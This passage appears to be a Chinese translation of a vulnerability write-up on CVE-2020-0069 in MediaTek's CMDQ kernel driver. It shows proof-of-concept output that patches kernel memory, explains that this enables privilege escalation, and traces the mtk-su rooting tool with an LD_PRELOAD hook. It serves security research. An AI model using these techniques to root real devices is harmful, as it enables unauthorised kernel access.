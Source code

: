 结果将会被写入到之前分配好的 readAddress.values 中



## 简易的 PoC

要标识内核使用的物理地址，一个可以使用的设备是 /proc/iomem ( 需要 root 权限 )

```
# cat /proc/iomem
[...]
40000000-545fffff : System RAM
  40008000-415fffff : Kernel code
  41800000-41d669b3 : Kernel data
[...]
```

这些地址是静态配置的，并且在每次引导时保持不变

这个 PoC 由两个程序组成:
- 一个 C 程序允许基础的内存读写
- 一个 shell 脚本，调用前面的程序来搜索内核数据内存中第一个出现的 “Linux” 字符串，然后将其替换为 “minix”
```
$ uname -a
Linux localhost 4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
$ sh poc.sh
[+] Found Linux string at 0x4180bc00
[+] Found Linux string at 0x4180bea0
[+] Write the patched value
$ uname -a
minix  4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
```

非常有用…

我们已经实现了读写内核内存数据。我们可以对任何其他内存区域做同样的事情，绕过系统中设置的权限和保护。所以除了玩一些小把戏，通过这个漏洞修改系统内存中的任何一个部分例如内核代码和数据以便实现提权。

二进制工具 mtk-su 通过该漏洞执行了很多有趣的操作，从而达到 root 权限。在这篇文章中我们不打算详细介绍 mtk-su 使用的这些内核利用方法。然而那些想要了解更多的人，可以看看我们制作的小型跟踪库。它会在启动 mtk-su 时进行预加载，并且它将跟踪 CMDQ 驱动程序的一些 IOCTL 调用，例如发送给驱动程序的命令。

```
$ mkdir mtk-su
$ LD_PRELOAD=./syscall-hook.so ./mtk-su
alloc failed
alloc count=400 startPA=0x5a733000
uncatched ioctl 40e07803
exec command (num 0) ( blockSize=8040, readAddress.count=0 ) dumped into cmd-0
exec command (num 1) ( blockSize=3e0, readAddress.count=1e ) dumped into cmd-1
[...]
$ cat mtk-su/cmd-1
WFE to_wait=1, wait=1, to_update=1, update=0, event=1da
MOVE 40928000 into reg 17
READ  address reg 17, data reg b
[...]
```

PoC和跟踪程序库可以在 Quarkslab 的存储库中找到 [CVE-2020-0069_poc](https://github.com/quarkslab/CVE-2020-0069_poc)
